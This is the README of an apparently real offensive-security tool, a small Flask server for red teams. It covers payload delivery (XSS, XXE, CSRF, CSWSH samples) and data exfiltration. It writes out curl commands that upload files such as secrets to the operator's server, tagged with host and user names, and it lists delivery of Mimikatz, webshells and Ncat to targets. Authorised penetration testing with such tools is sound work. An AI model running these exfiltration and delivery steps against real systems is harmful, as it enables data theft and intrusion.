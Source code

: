 # Gamal

A tiny flask app for helping red-teamers, purple teamers, and pentesters in delivery, data exfiltration, and some attacks (SSRF, XXE, XSS, Session Hijacking, Session Riding).

## Install & usage

```bash
cd /opt
git clone github.com/Fadavvi/Gamal
cd Gamal
sudo apt install python3-flask #or python3 -m pip install flask
python3 gamal.py
```  

## Arguments

```
  -h, --help       show this help message and exit
  --log LOG        Path to the log file
  --port PORT      Port / HTTPs
  --ip IP          IP e.g. : 0.0.0.0 or 127.0.0.1
  --canary CANARY  Canary token
  --cert CERT      Your fullchain.pem file
  --key KEY        Your ssl private key file
  --host HOST      Your hostname or external IP add, Format: <FQDN>:<PORT>
  --delivery       Shows available files in the ./f path for delivery. Use it in combination with --host
```

Default configuration: IP binding: `0.0.0.0`, Port: `1337`, Log: `gamal.log`, Canary-String: `booqbooqGamal`

or

`python3 gamal.py --ip <IPADDR> --port <PORTNUM> --log <LOGPATH> --canary <YourCanaryString> [--cert <FullChain> --key <PrivateKey>] [--host <FQDN>:<YourPort> --delivery]`

Then you can use your IP & Port in your payloads.

***Note:*** Add your files in `/f` folder ==>  `http://IP:PORT/f/<Your-FileName>`

## Paylods

`/f/xss.js` XSS Sample function

`/f/CORS.html` CORS sample script

`/f/CSRF.html` CSRF sample page

`/f/CSWSH.html` Cross-Site WebSocket Hijacking (CSWSH) script

`/f/meta.jpg` XSS in Meta-data

`/f/EBXXE.dtd` XXE .dtd sample file

`/f/xxe1.svg` and `/f/xxe2.svg` XXE in SVG file

## Data exfiltration

### Linux / MacOS

`curl -k -F "file=@<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Windows

`Remove-Item alias:curl -ErrorAction SilentlyContinue; curl -k -F "file=@C:\<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Special Parameters

If you use `user` and `host` parameters in the upload URL, they will be used in the file name. It'll help you identify the owner of the files more easily. Example:

```bash
curl -k -F "file=@/opt/secrets.txt" "https://127.0.0.1:1337/e/upload?host=$(hostname)&user=$(id -un)"
```

outputfile:

`received/{host}/{user}--{request.remote_addr}-{RealFileName}`

## Gamal helper script (additional tools)

It downloads and categorizes the most common tools for delivering to the targets (Windows / Linux / macOS)

- [Mimikatz](https://github.com/gentilkiwi/mimikatz/)
- [SharpCollection](https://github.com/Flangvik/SharpCollection/) -- Read the README file before you use it in your operations.
- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng/) -- agent and proxy
- [PEASS-ng](https://github.com/peass-ng/PEASS-ng/)
- [AzureHound](https://github.com/SpecterOps/AzureHound)
- [Traitor](https://github.com/liamg/traitor)
- [Ncat](https://nmap.org/ncat/)
- Basic webshells (asp / aspx / jsp / php)

## Disclaimer

 This tool is intended for use only in a legal and legitimate manner. Unfortunately, there is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.

## To do

- [ ] DNS exfiltration capability
- [ ] ICMP exfiltration capability
- [X] Improving the logging format
- [ ] Adding more tools to the helper script
